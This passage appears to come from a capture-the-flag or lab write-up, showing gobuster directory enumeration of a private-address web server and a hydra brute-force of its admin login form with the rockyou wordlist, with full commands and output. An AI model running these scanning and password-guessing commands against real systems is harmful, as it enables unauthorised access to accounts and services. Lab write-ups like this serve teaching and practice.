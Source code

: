 

Brute force the website for directories and files with the extension `.php` using `gobuster`.
- Command: `gobuster dir -u http://192.168.142.195/ -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50`

```shell
geobour98@kali:~$ gobuster dir -u http://192.168.142.195/ -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.142.195/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/28 19:53:20 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 302) [Size: 206] [--> index.php]
/images               (Status: 301) [Size: 170] [--> http://192.168.142.195/images/]
/index.php            (Status: 200) [Size: 506]                                     
/css                  (Status: 301) [Size: 170] [--> http://192.168.142.195/css/]   
/logout.php           (Status: 302) [Size: 163] [--> index.php]                     
/command.php          (Status: 302) [Size: 704] [--> index.php]

===============================================================
2022/09/28 20:01:23 Finished
===============================================================
```

## Exploitation


The most interesting file is `command.php` but leads to `index.php`, so maybe we have to be authenticated in order to view it.

Now we `brute force` the `admin` user using `hydra` and if the success message contains the word `command`, then we have successfully brute forced the password.
- Command: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.142.195 http-post-form "/login.php:username=^USER^&password=^PASS^:S=command"`

```shell
geobour98@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.142.195 http-post-form "/login.php:username=^USER^&password=^PASS^:S=command"
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-28 19:54:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.142.195:80/login.php:username=^USER^&password=^PASS^:S=command
[80][http-post-form] host: 192.168.142.195   login: admin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-28 19:55:10
```
